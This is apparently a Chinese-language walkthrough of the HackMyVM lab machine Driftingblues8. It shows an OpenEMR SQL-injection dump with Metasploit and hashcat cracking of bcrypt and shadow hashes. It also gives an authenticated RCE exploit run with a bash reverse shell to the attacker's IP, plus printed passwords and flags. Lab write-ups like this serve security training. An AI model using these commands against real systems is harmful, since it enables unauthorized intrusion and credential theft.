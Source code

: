 # Driftingblues8

2024-11-22 https://hackmyvm.eu/machines/machine.php?vm=Driftingblues8

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

只有一个 web 服务，首页显示的 CMS 是 OpenEMR，对其进行目录扫描，发现 http://192.168.5.40/admin.php 页面了，其版本为 5.0.1 (3)，找到几个漏洞利用，但是都需要用户凭据，目前没有：

```
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated)         | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)     | php/webapps/50122.rb
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                            | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authentication Bypass                                             | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                             | php/webapps/45161.py
```

在找找其他的利用吧，msf 中有一个 sql 注入的利用，auxiliary/sqli/openemr/openemr_sqli_dump ：

```
set rhosts 192.168.5.40
set TARGETURI /
run
```

最终跑出用户 admin 的密码：

```
+--------------------------------------------------------------+----------+
| password                                                     | username |
+--------------------------------------------------------------+----------+
| $2a$05$.tDgmjTxSmOz8ena6MnN3.2E049sE5jUaknc7aRqOOdQHLX61F.p. | admin    |
+--------------------------------------------------------------+----------+
```

在前面的目录扫描中还发现了一个http://192.168.5.40/wordlist.txt 其中是字典列表。`$2a$` 在 hashcat 中的模式是 3200，使用刚才得到的字典进行破解，得到结果：

```
2a$05$.tDgmjTxSmOz8ena6MnN3.2E049sE5jUaknc7aRqOOdQHLX61F.p.:$HEX[2e3a2e79617272616b2e3a2e3331]
```

将 2e3a2e79617272616b2e3a2e3331 进行十六进制转 10 进制，得到密码：`.:.yarrak.:.31`

然后利用前面找到的 RCE 利用 45161.py，使用 python2 运行：

```
python2 45161.py -u admin -p '.:.yarrak.:.31' -c '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40
```

在 kali 上得到了反弹的 shell。

在 home 目录中有一个用户 clapton，但是没权限访问，发现数据库的连接配置文件:

```
cat sites/default/sqlconf.php

$host	= 'localhost';
$port	= '3306';
$login	= 'openemr';
$pass	= 'junno';
$dbase	= 'openemr';
```

但是这个密码不对，尝试其他枚举，sudo、suid、getcap、crontab 等都没发现可利用的地方。发现了一个可读的 shadow 备份文件：/var/backups/shadow.backup：

```
root:$6$sqBC8Bk02qmul3ER$kysvb1LR5uywwKRc/KQcmOMALcqd0NhHnU1Wbr9NRs9iz7WHwWqGkxKYRhadI3FWo3csX1BdQPHg33gwGVgMp.:18742:0:99999:7:::
clapton:$6$/eeR7/4JGbeM7nwc$hANgsvO09hCCMkV5HiWsjTTS7NMOZ4tm8/s4uzyZxLau2CSX7eEwjgcbfwcdvLV.XccVW5QuysP/9JBjMkdXT/:18742:0:99999:7:::
```

使用前面的 wordlist 爆破没成功，最后使用 rockyou 进行爆破得到密码 dragonsblood , 切换到 clapton 用户。

得到了 user flag：

```
clapton@driftingblues:~$ cat user.txt
96716B8151B1682C5285BC99DD4E95C2
```

同时在 home 目录中也有一个 suid 程序 waytoroot，但是没看出利用信息。同时这个目录中还有一个 wordlist.txt 文件。将这个文件传输到 kali 上，看看它能不能破解出 root 的密码。

最终找到了 root 的密码：

```
$6$sqBC8Bk02qmul3ER$kysvb1LR5uywwKRc/KQcmOMALcqd0NhHnU1Wbr9NRs9iz7WHwWqGkxKYRhadI3FWo3csX1BdQPHg33gwGVgMp.:$HEX[2e3a2e796172616b2e3a2e]
```

将其从十六进制转换成字符串，得到密码为: `.:.yarak.:.`

最终获得 root flag：

```
root@driftingblues:~# ls
root.txt
root@driftingblues:~# cat root.txt
E8E7040D825E1F345A617E0E6612444A
```

